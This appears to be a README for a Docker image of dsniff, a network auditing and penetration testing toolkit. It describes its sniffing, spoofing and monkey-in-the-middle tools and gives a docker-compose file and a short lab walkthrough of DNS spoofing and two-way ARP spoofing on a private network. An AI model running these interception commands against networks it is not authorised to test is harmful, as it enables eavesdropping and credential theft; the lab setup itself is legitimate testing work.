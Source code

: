 dsniff
======

[dsniff][1] is a collection of tools for network auditing and penetration
testing. dsniff, filesnarf, mailsnarf, msgsnarf, urlsnarf, and webspy passively
monitor a network for interesting data (passwords, e-mail, files, etc.).
arpspoof, dnsspoof, and macof facilitate the interception of network traffic
normally unavailable to an attacker (e.g, due to layer-2 switching). sshmitm
and webmitm implement active monkey-in-the-middle attacks against redirected
SSH and HTTPS sessions by exploiting weak bindings in ad-hoc PKI.

## docker-compose.yml

```yaml
dsniff:
  image: vimagick/dsniff
  net: host
  volumes:
    - ./data:/data
  working_dir: /data
  tty: yes
  restart: unless-stopped
```

## Server Setup

```bash
$ docker-compose up -d
$ docker-compose exec dsniff tmux ls
$ docker-compose exec dsniff tmux a
>>> echo -e '192.168.31.1\twww.baidu.com' >> hosts
>>> dnsspoof -i eth0 -f hosts
>>> arpspoof -i eth0 -t 192.168.31.1 192.168.31.102
>>> arpspoof -i eth0 -t 192.168.31.102 192.168.31.1
```

## Client Setup

```bash
$ ping www.baidu.com
$ curl www.baidu.com
```

[1]: https://www.monkey.org/~dugsong/dsniff/
